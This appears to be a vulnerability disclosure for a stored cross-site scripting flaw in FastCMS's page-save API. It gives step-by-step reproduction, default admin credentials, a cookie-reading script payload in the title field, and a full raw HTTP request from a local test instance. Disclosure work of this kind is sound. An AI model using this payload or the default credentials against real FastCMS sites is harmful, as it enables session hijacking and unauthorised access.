 CMS:https://github.com/my-fastcms/fastcms/

Vulnerability url:http://127.0.0.1:8080/fastcms/api/admin/page/save

POST form-data parameter title="payload" exists stored cross-site scripting

Copy Steps 

1.Go to administrator login

http://127.0.0.1:8080/fastcms/

Default Admin Access Information Username: admin / Password: 1

2.Click on "Page" and click on "New Page"
![295873542-05741a25-8139-4c89-bb98-101c97e4f93e](https://github.com/biantaibao/XSS/assets/131763503/16ed9fd1-b9ce-405a-9b79-b5488485c902)


3.Put Payload into the title parameter

Payload:<script>alert(document.cookie)</script>
![image](https://github.com/biantaibao/XSS/assets/131763503/5bbafc53-ae85-47f1-8481-3994fa3c35af)

4.Click on Save

Transmission packet

POST /fastcms/api/admin/page/save HTTP/1.1   
Host: 127.0.0.1:8080  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0  
Accept: application/json, text/plain, /  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoiMSIsInVzZXJJZCI6MSwidXNlcm5hbWUiOiJhZG1pbiIsImV4cCI6MTcwNDk4MjgzNX0.BqRd5hHJ5rZQHfCwR1JwyaQT_iyFPyhbBIes1Paj-eg  
ClientId: 5986012cabe54397a001bf61b4d88706  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 305  
Origin: http://127.0.0.1:8080  
Connection: close  
Referer: http://127.0.0.1/fastcms.html  
Cookie: Hm_lvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; JSESSIONID=36080a69-5232-4088-85be-6074f45e49e2; Hm_lpvt_2f24154b3f87697d36a4e2a638b68aaa=1704782281; Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1704964823; Hm_lpvt_f8cddee34ca21f05373a9388cfdd798b=1704966995 
 
 id=3&createUserId=1&title=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&path=11&contentHtml=%3Cp%3E1%3C%2Fp%3E&outLink=&seoKeywords=1&seoDescription=1&summary=11&thumbnail=&style=&status=publish&suffix=&viewCount=0&commentEnable=false&created=&updated=&url=http%3A%2F%2F192.168.43.1%3A8080%2Fp%2F3

5.Payload will trigger when a user visits on http://127.0.0.1:8080/p/3
![image](https://github.com/biantaibao/XSS/assets/131763503/beb9c9c6-ca5c-46cb-818b-3103a0f4be33)


